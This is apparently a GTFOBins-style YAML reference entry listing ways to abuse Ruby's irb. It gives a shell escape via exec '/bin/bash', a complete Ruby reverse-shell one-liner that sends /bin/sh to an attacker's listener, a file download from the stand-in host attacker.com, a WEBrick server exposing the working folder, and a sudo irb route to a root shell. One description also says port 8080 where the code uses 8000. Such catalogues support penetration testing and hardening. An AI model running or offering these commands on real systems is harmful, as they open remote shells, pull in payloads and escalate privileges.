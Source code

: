 ```yaml
---
functions:
  shell:
    - description: |
        `irb` lets you execute ruby commands as well as shell commands with `exec`.
      code: |
        irb
        exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
      code: |
        export RHOST='127.0.0.1'
        export RPORT=9000
        irb
        require 'socket'; s= Socket.new 2,1; s.connect Socket.sockaddr_in ENV['RPORT'], ENV['RHOST']; [0,1,2].each { |fd| syscall 33, s.fileno, fd }; exec '/bin/sh -i'
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080.
      code: |
        irb
        require 'webrick'; WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start;
  file-download:
    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
      code: |
        export URL=http://attacker.com/file_to_get
        export FILE=file_name
        irb
        require 'open-uri'; download = open(ENV['URL']); IO.copy_stream(download, ENV['FILE'])
  sudo:
    - code: |
        sudo irb
        exec '/bin/bash'
---
```

